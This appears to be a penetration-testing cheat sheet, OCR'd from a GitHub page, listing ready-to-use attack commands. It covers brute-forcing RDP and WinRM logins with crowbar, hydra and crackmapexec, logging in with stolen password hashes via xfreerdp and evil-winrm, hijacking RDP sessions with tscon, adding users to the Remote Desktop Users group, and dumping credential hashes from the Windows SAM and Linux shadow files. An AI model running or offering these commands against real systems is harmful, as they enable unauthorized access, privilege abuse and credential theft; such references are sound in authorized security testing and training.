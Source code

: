 **Connect**

> # Local
> mysql -u <USER>
> mysql -u <USER> -p

> # Remote
> mysql -h <IP> -u <USER>

## RDP - 3389

**Brute force**
> crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
> crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

> hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV

**Connect with known credentials / hash**
> rdesktop -u <USERNAME> <IP>
> rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

> xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
> xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>

**Session stealing**

**Get openned sessions**
> query user

**Access to the selected**
> tscon <ID> /dest:<SESSIONNAME>

**Adding user to RDP group (Windows)**
> net localgroup "Remote Desktop Users" <USER> /add

# WINRM - 5985 - 5986

**Brute force**
> crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>

**Connecting**
> evil-winrm -i <IP> -u <USER> -p <PASSWORD>
> evil-winrm -i <IP> -u <USER> -H <HASH>

# HASHES

**Windows**
> reg save HKLM\SAM c:\SAM
> reg save HKLM\System c:\System

> samdump2 System SAM > hashes

**Linux**
> unshadow passwd shadow > hashes

